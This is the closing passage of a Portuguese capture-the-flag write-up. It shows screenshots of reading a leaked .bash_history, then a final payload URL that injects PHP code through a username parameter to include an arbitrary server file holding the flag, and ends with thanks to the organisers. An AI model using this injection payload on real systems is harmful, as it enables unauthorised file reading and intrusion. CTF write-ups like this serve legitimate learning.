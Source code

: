 Lendo .bash_history:
<img src="/img/aratuctf/Pasted image 20220911215301.png" />
Lendo a flag leakada do .bash_history:
<img src="/img/aratuctf/Pasted image 20220911215611.png" />

Payload final: `https://sandbox.boita.tech/?username=blaidd${include(array_pop(array_values($_GET)))}&file=/root/this_is_the_flag-from-leaked-from-history.txt`


## End
Parabéns pro pessoal da Boitatech pelo CTF e pelo evento da Semana Aratu, foi muito divertido resolver essas challs e aprendi bastante coisa com as palestras :D

Esse foi o ranking final: